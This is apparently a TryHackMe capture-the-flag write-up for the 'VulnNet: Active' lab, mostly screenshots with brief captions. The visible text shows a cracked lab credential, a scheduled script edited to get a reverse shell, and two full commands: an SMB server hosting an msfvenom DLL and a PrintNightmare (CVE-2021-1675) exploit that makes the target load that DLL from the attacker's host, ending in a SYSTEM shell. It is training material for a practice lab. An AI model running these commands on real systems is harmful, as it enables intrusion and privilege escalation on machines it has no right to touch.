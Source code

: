 Link room: https://tryhackme.com/room/vulnnetactive
# ENUMERATING
## using nmap
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/43ddce29-ffdc-4daa-a71e-51536b79d33c)

## using redis-cli

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/28860da3-8235-44fc-9f02-ae27e283654b)

=> username: enterprise-security
## using crackmapexec
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/46e6cde6-986d-42e6-b0c6-4d4e172f024a)

Editing /etc/hosts

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/cfea7abb-7a2f-49f7-ac98-ce7099a6f352)

# EXPLOITING
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/950bccd3-ca4b-4f86-9191-816c3db4ba72)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/6fac0975-e090-4632-9dad-6cfda8b1476a)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/6a126008-34c2-44e5-9aba-fbb20d5b55ac)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/3c6923e7-57e0-4d25-ad86-6166be16e63e)

=> enterprise-security:sand_0873959498

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/8bfed8ab-e90d-40ee-8809-7eebc0647cc6)

=> directory: Enterprise-Share

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/4dc1a327-e625-42af-8c94-d37031ef964c)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/34561a08-2a5a-4b97-b747-e07bf48789b5)

I edit "PurgeIrrelevantData_1826.ps1" file.

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/45ddde64-e677-4d91-aad5-6ef61d25157d)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/cc7fd835-b710-490d-97b8-c115d338f718)

## upload file
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/81efe345-ec02-46de-8b89-931dfd9a4e50)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/2c679492-c5ad-43fb-b0d3-34d3be85a17c)

=> I get a reverse shell 

I find startup.bat file and download it.

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/5b9563af-c607-4427-b087-24319e4cdeb7)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/4c332cb7-60bd-4f24-9db2-8c9ce98fe89e)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/ae4b7b3e-a539-4ff2-ac20-43dfbc269f8e)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/667fd0de-d81c-4bdb-8bd1-df76b57694be)

## user.txt
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/49673de5-6285-4715-8321-77694e0c1ee8)

=> user.txt
# PRIVILEGE ESCALATION
## using msfvenom
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/ae85b8da-a3c6-41ff-a150-36ea1430c570)

=> creating shell.dll file
## CVE-2021-1675 / CVE-2021-34527 
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/01d12f29-3248-44be-88ad-42f6770ab3f9)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/22eefdd2-c7ca-4ce0-af3e-6a5a482906d4)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/90675be8-49b8-455d-b9d3-546b3e13b625)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/1bb94ac9-565e-4460-bf20-cd83d73d5f45)

## using mfconsole
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/ca001978-a18c-442a-9906-2bd225575ca7)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/118c2edc-fd4c-4a52-8c00-5c17771271af)

I use ```sudo smbserver.py share /home/kali/temp/ -smb2support``` command

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/d0355195-a83f-45af-ab2b-989530efc6be)

I use ```sudo python3 CVE-2021-1675.py VULNNET/enterprise-security:'sand_0873959498'@vulnnet.local '\\10.9.218.234\share\shell.dll'``` command

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/1872aa73-1e2d-4d70-af1b-55adfac8732d)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/e24e2939-1bee-439b-b64e-5ad1f02fece3)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/862500a4-87d8-4910-8d89-6548e1ef5152)

=> Haha.. Nice!!! I get system shell.

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/2c6886fa-03c7-485e-9926-889aebfbc165)

=> system.txt
## Done!!!
Thanks for reading. Bye!
